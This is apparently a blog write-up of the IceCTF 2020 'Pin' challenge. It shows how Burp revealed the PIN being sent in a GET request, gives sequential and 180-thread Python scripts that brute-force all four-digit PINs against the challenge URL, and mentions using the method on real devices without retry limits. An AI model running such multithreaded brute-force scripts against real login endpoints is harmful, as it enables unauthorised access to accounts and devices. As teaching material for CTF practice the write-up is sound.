 ```yaml
---
layout: post
title: IceCTF 2020 - Multithreading Requests 
---
```


IceCTF took place over the weekend and had a range of fun challenges. This writeup will be focussing on the miscellaneous category and the 'Pin' challenge, which involved looking at requests in Burp and multithreading them using Python to brute-force a four digit passcode in a short period of time.

# The Challenge
**Name:** Pin

**Category:** Miscellaneous 


**Points:** 100


**Requirements:** Python, [Burp](https://portswigger.net/burp/communitydownload).


>You are late again, and just can’t remember the PIN code to the [locker](http://www.misc-pin.vuln.icec.tf/) that has the secret Novichok stuff you need for work. What do you do?

# Initial Analysis
The link in the challenge description takes us to a lockscreen which resembles an iOS one. Immediately I tried entering a bunch of random passcodes such as 1234, 1337 ect. to see if anything in the URL would change (or maybe even luck out and get it through guessing) but as expected, I didn't learn much. I decided to fire up Burp, a tool which allows one to peek at requests and modify them, which gave me a better understanding of what was going on behind the scenes. 

![image](https://i.imgur.com/BZ21cjc.png)

I navigated to the 'Proxy' tab and selected 'Open Browser'. This opens up Chromium which Burp can directly interface with. 'Intercept is on' should be selected by default, which will allow us to stop and modify any requests before they're sent. 

Now that we've got everything we need, we can paste the link into the browser and see what Burp tells us. 

![image](https://i.imgur.com/VcQBa38.png)

First off, since we're only navigating to the home page there's nothing we didn't already know in this request. What we're actually interested in is what happens when we enter in a passcode, so let's try that.

![image](https://i.imgur.com/z3o7mXy.png)

This looks more promising...we can see a GET request to another URL (www.misc-pin.vuln.icec.tf/login/1337) which contains the passcode we just entered. This is great news, as it means we can brute-force it through spamming requests with all 10,000 possible combinations. It'd also be good to see how the website responds to a wrong passcode - we can use Burp's 'Repeater' tool for this. Simply right click the request and select the 'Send to Repeater' option.

![image](https://i.imgur.com/Ym30oug.png)

Navigate to the 'Repeater' tab and click 'Send':

![image](https://i.imgur.com/I0HzeB0.png)

We get some JSON data returned, which is perfect, as it means we can check the response from the website to see if the ``correct`` field is set to true or false when we automate it. 

# Bruteforcing Requests 
We now know that the passcode is being sent to /login/ via a GET request, so all we need to do is write a script that can try every combination. This is where the Python [requests](https://pypi.org/project/requests/) module comes in handy. The following script mimics someone entering in all possible passcodes and analyses the response from the website: 

```python
import requests
  
for pin in range(9999):
    # allows us to try '0001' instead of just '1' as a passcode
    pin = '{0:04}'.format(pin)
    print('Trying: ' + pin)

    # creates a new URL each time with a new passcode to try
    URL = "http://www.misc-pin.vuln.icec.tf/login/" + str(pin)

    # performs a GET request and stores the response in r
    r = requests.get(url = URL)
    temp = str(r.content)
    print(temp)

    # checks if the 'correct' field is set to true
    if 'true' in temp:
        print('FOUND!' + '\nPASSWORD: ' + pin)
        quit()
```

The above is a relatively easy solution that gets the job done...but it's really slow. I left it running, looked at some other challenges and eventually got a match for ``1729`` after 15 minutes. The flag was ``IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}``, which I thought was quite fitting. 

![image](https://i.imgur.com/NalDvt5.png)

Now, it would've been okay to stop here as the challenge was solved and I had the flag, but I knew that there was a much faster way to do this so I looked into multithreading and came across [ThreadPoolExecutor](https://www.tutorialspoint.com/concurrency_in_python/concurrency_in_python_pool_of_threads.htm). Through rewriting the script, I came up with the following: 

```python
from concurrent.futures.thread import ThreadPoolExecutor
from requests import Session, Response
from requests.adapters import HTTPAdapter
from functools import partial
from multiprocessing import Pool
import tqdm
import os

def execute(urls, method, size):
    i = 0
    # creates a new session 
    session = Session()
    session.mount('http://', HTTPAdapter(pool_maxsize = size))

    # creates a worker that calls make_request
    worker = partial(method, session)

    # executes make_request asynchronously with 180 workers
    with ThreadPoolExecutor(size) as pool:

        # creates a progress bar and allows us to check responses 
        for req in tqdm.tqdm(pool.map(worker, urls), total = len(urls)):
            temp = str(req.content)
            if "true" in temp:
                print("\n\nFOUND! Password is: " + str(i))
                print(str(req.content) + "\n")
                quit()
            i+=1
    session.close()

# method we want to multithread
def make_request(session, url):
    return session.get(url)

# generates a list of all 10000 URLs
urls = [("http://www.misc-pin.vuln.icec.tf/login/" + "{0:04}".format(num)) for num in range(9999)]

# kick starts the program with 180 workers
execute(urls, make_request, 180)
```

This cracked the passcode in under 10 seconds (compared to 15 minutes before) and works by doing the previous solution, but much faster through calling ``make_request`` 180 times, rather than just once per iteration of the URL list. The optimised script gets through 1729 requests before the previous one can even do 15. 

The reason I selected ``180`` for the amount of workers is because I found it was a sweet spot in terms of speed for my computer as it started to slow down with anything higher - although I'm sure this will greatly vary depending on a device's CPU. I also added a progress bar using [tqdm](https://github.com/tqdm/tqdm). Here's a time comparison between the two (multithreaded version on the right):

![image](https://i.imgur.com/uDPJldv.gif)

and that's it! Bit of a shorter writeup, but I thought I'd share my solution which I think will come in handy for future challenges. I'm sure there are many other applications of this too (such as cracking passcodes of real devices which use digit combinations and have no retry limit), so that's something I'll be looking into a little more...ethically of course.

# What did I learn?

1) Multithreading in Python. 


2) Multithreading and brute-forcing go hand in hand. 


3) Shorter solutions aren't always better. 
